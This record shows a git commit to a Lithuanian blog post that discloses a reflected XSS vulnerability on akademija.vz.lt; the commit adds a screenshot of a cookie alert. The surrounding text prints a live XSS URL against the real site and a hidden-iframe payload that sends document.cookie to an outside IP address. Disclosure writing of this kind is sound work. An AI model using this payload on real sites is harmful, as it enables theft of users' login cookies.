

Before and after one commit to JarLob/jarlob.github.io, a Jekyll site: the page built from _posts/2022-12-31-mano-vz.md, in a window 1280 px wide. Shown: the part 3774-5685 px from the top of the page at 79% size, without its empty margins (147-1131 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
akademija screenshot

```diff
--- a/_posts/2022-12-31-mano-vz.md
+++ b/_posts/2022-12-31-mano-vz.md
@@ -53,6 +53,8 @@ Panašu, kad VŽ naudoja dar vieną WAF – Imperva. Šis komercinis sprendimas
 
 Antrasis yra "pridengtas" Imperva, tačiau pirmasis veikė iki šiol! WAF naudojimas negali būti priežastimi netaisyti žinomų pažeidžiamumų. Ar jis liko neištaisytas todėl, kad yra [akademija.vz.lt](https://akademija.vz.lt), o ne pagrindiniame subdomain'e [www.vz.lt](https://www.vz.lt)? Didelė klaida, nes šis subdomain'as gali skaityti `VzLtLoginInfoPwd` ir `VzLtLoginInfo` slapukus: [https://akademija.vz.lt/paieska/?q=">&lt;script>alert(document.cookie)&lt;/script>](https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ealert\(document.cookie\)%3c/script%3e).
 
+![VŽ akademija alert pranešimas su visais slapukais.](vz_akademija_xss.png "Alert su slapukais")
+
 ### Kas iš to alert?
 
 Tai yra Reflected XSS, nes esamam vartotojui reikia atidaryti šią nuorodą, kad kodas būtų įvykdytas. Tačiau būtų klaidinga nuvertinti tai ir priskirti prie socialinės inžinerijos atakų. VŽ vartotojams, kurie naudoja Safari naršyklę nepasisekė - tereikėjo įterpti šį kodą `<iframe style="display:none" src="https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ehttps://172.17.247.54:4443?c=&#x22;+document.cookie%3c/script%3e"></iframe>` į kokį nulaužtą puslapį, kurį jie aplanko ir slapukas būtų pavogtas jiems nematant. Iki 2020 m. vasaros tai taip pat veikė Chrome ir Firefox naršyklėse. Dabar tam reikia, kad slapukas būtų pažymėtas atributais `Secure` (leisti siųsti slapuką tiktai per HTTPS) ir `SameSite=None`. VŽ slapukai jų neturi.
```
Also changed, not shown: lt/blog/vz_akademija_xss.png (added).
